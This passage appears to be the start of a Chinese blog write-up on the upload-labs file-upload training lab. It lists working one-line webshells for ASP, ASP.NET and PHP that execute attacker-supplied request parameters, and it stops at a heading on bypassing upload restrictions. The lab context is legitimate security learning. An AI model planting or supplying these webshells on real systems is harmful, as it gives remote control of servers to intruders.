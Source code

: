 ```yaml
---
layout:     post
title:      upload-labs
subtitle:   文件上传
date:       2020-3-12
author:     YY
header-img: img/post/2.jpg
catalog: true
tags:
    - upload-labs
    - 文件上传
---
```


## 前言
[文件上传](https://yangyang-linux.gitee.io/2021/02/04/dvwa%E4%B9%8B%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/)
## 各版本的一句话木马
```bash
ASP（.asp）: 
<%eval request("cmd")%> 

ASP.NET(.ASPX): 
<%@ Page Language="Jscript"%> 
<%eval(Request.Item["cmd"],"unsafe");%> 

PHP: 
<?php @eval($_POST['hacker'])?> 

变形一句话：https://blog.csdn.net/bylfsj/article/details/101227210
```

## 限制与绕过